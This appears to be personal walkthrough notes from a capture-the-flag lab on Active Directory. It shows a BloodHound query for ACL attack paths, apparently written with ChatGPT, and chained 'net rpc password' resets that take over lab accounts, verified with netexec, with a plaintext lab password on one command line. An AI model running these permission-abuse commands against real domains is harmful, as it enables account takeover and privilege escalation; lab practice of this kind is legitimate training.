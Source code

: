![[Pasted image 20251010090944.png]]

-------------------------------------------------------------------------------------------------------------

I got chatgpt to write this query for me so im testing if I can chain together any of these generic alls with RAQUEL and SHAWNA

https://gist.github.com/joeminicucci/d9fb42f03186f6aaa556cc5f961f537b

MATCH p=(start {name:"THM\\TABATHA_BRITT"})-[rels*1..2]->(target)
WHERE ALL(r IN rels WHERE type(r) IN [
  'GenericAll','GenericWrite','WriteDacl','WriteOwner','AllExtendedRights',
  'AddMember','AdminTo','Owns'
])
RETURN p

![[Pasted image 20251010095208.png]]

-------------------------------------------------------------------------------------------------------------

This shows a clear path of generic all / generic write /forcechangepasswd relationships that take us to 

So first step is using my genericall I have on SHAWNA_BRAY

https://www.netexec.wiki/smb-protocol/change-user-password

I saw this in a walkthrough and really liked it, they verified the RPC reset via netexec using creds to access samba

now to use forcechangepassword on CRUZ_HALL then HALLs genericwrite on DARLA_WINTERS


root@ip-10-201-17-160:~# net rpc password SHAWNA_BRAY ResetMe123! -U "thm.corp/TABATHA_BRITT"%marlboro\(1985\) -S haystack.thm.corp
root@ip-10-201-17-160:~# nxc smb HAYSTACK -u SHAWNA_BRAY -p ResetMe123!
SMB         10.201.39.224   445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.201.39.224   445    HAYSTACK         [+] thm.corp\SHAWNA_BRAY:ResetMe123!
root@ip-10-201-17-160:~# net rpc password CRUZ_HALL ResetMe123! -U "thm.corp/SHAWNA_BRAY"%ResetMe123! -S haystack.thm.corp
root@ip-10-201-17-160:~# nxc smb HAYSTACK -u CRUZ_HALL -p ResetMe123!
SMB         10.201.39.224   445    HAYSTACK         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAYSTACK) (domain:thm.corp) (signing:True) (SMBv1:False)
SMB         10.201.39.224   445    HAYSTACK         [+] thm.corp\CRUZ_HALL:ResetMe123!
root@ip-10-201-17-160:~# 


PS C:\Windows\system32> whoami /priv                                                                                                                                                                                                            PRIVILEGES INFORMATION                                                                                                  ----------------------                                                                                                                                                                                                                          Privilege Name                Description                    State                                                      ============================= ============================== ========                                                   SeMachineAccountPrivilege     Add workstations to domain     Disabled                                                   SeChangeNotifyPrivilege       Bypass traverse checking       Enabled                                                    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled                                                   PS C:\Windows\system32>       
